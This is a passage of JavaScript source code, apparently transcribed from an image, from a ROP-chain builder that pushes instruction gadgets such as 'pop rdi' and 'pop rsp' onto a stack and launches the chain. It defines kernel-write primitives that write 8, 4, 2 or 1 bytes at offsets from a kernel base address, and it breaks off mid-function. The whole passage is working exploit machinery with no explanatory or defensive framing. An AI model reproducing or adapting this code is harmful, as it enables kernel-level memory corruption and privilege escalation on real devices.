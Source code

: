             //get rsp of the next push
            this.get_rsp = function () {
                return this.stack.add32(this.count * 8);
            }
            this.write_result = function (where) {
                this.push(gadgets["pop rdi"]);
                this.push(where);
                this.push(gadgets["mov [rdi], rax"]);
            }
            this.write_result4 = function (where) {
                this.push(gadgets["pop rdi"]);
                this.push(where);
                this.push(gadgets["mov [rdi], eax"]);
            }    
            this.jmp_rsp = function (rsp) {
                this.push(window.gadgets["pop rsp"]);
                this.push(rsp);
            }    
            this.run = function () {
                p.launch_chain(this);
                this.clear();
            }    
            this.KERNEL_BASE_PTR_VAR;
            this.set_kernel_var = function (arg) {
                this.KERNEL_BASE_PTR_VAR = arg;
            }    
            this.rax_kernel = function (offset) {
                this.push(gadgets["pop rax"]);
                this.push(this.KERNEL_BASE_PTR_VAR)
                this.push(gadgets["mov rax, [rax]"]);
                this.push(gadgets["pop rsi"]);
                this.push(offset)
                this.push(gadgets["add rax, rsi"]);
            }    
            this.write_kernel_addr_to_chain_later = function (offset) {
                this.push(gadgets["pop rdi"]);
                var idx = this.pushSymbolic();
                this.rax_kernel(offset);
                this.push(gadgets["mov [rdi], rax"]);
                return idx;
            }    
            this.kwrite8 = function (offset, qword) {
                this.rax_kernel(offset);
                this.push(gadgets["pop rsi"]);
                this.push(qword);
                this.push(gadgets["mov [rax], rsi"]);
            }    
            this.kwrite4 = function (offset, dword) {
                this.rax_kernel(offset);
                this.push(gadgets["pop rdx"]);
                this.push(dword);
                this.push(gadgets["mov [rax], edx"]);
            }    
            this.kwrite2 = function (offset, word) {
                this.rax_kernel(offset);
                this.push(gadgets["pop rcx"]);
                this.push(word);
                this.push(gadgets["mov [rax], cx"]);
            }    
            this.kwrite1 = function (offset, byte) {
                this.rax_kernel(offset);
                this.push(gadgets["pop rcx"]);
                this.push(byte);
                this.push(gadgets["mov [rax], cl"]);